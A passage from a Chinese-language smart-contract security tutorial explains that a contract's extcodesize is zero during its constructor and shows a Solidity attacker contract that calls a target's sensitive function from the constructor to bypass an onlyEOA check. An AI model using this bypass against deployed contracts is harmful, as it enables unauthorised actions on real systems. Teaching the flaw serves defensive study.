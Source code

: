 换句话说：
- 当一个合约正在执行其 `constructor` 逻辑时
- 它的 `extcodesize` **仍然是 0**！
- 它就像一个正在"诞生"但还未完全成形的生命
- 在EVM的视角里，它此刻还没有"身体"（代码）

### 3.2 合约部署流程

```
1. 创建合约地址
   ↓
2. 执行 constructor（此时 extcodesize = 0）
   ↓
3. 将 runtime code 存储到地址（此时 extcodesize > 0）
   ↓
4. 部署完成
```

**关键点**：在步骤2，合约地址的 `extcodesize` 仍然是 0！

---

## 4. 攻击方法

### 4.1 攻击合约

攻击者可以利用这一点，编写一个**攻击合约**，将恶意的调用逻辑放在 `constructor` 里面。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface ITarget {
    function sensitiveAction() external;
}

contract Attacker {
    string public result;
    
    // 💣 构造函数：在部署本合约的瞬间被执行
    constructor(address targetAddress) {
        ITarget target = ITarget(targetAddress);
        
        // **关键攻击点**
        // 在 Attacker 合约的构造函数执行期间，
        // Attacker 地址的 extcodesize 仍然是 0。
        // 因此，对 Target.sensitiveAction() 的调用会成功绕过 onlyEOA 检查！
        target.sensitiveAction();
        
        result = "Attack successful!";
    }
}
```
